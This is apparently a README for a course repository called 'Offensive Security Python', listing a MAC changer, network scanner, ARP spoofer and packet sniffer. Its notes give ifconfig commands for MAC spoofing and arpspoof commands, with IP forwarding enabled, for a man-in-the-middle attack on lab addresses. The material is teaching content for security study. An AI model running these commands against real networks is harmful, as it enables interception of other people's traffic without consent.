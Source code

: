# Offensive Security Python
> From Zaid Sabih

* Topics
- Changing MAC Address 
- Network Scanner
- ARP Spoofing
- Packet Sniffer

## Playbook
> Check on how to use these tools 

## Dependencies on PIP
- scapy
- scapy_http
- netfilterqueue

# Notes
> On doing this things manually or with another tool

## Changing MAC ADDRESS
Commands
```
ifconfig wlan0 down
ifconfig wlan0 hw ether 00:11:22:33:44:55
ifconfig wlan0 up
ifconfig wlan0 
```
## ARP SPOOF 
* Reminder you need to enable ip forwarding in Linux First
```
echo 1 > /proc/sys/net/ipv4/ip_forward
```

Terminal 1 for Target  
```
arpspoof -i <INTERFACE> -t <TARGET IP> <GATEWAY IP>
arpspoof -i eth0 -t 10.0.2.7 10.0.2.1
```

Terminal 2 for Gateway  
```
arpspoof -i <INTERFACE> -t <GATEWAY IP> <TARGET IP>
arpspoof -i eth0 -t 10.0.2.1 10.0.2.7 
```

--- 

### Python 3 Compatibility

pip3 install scapy-python3

#### Same line Printing 
print("\r [+] Info counter", end="")

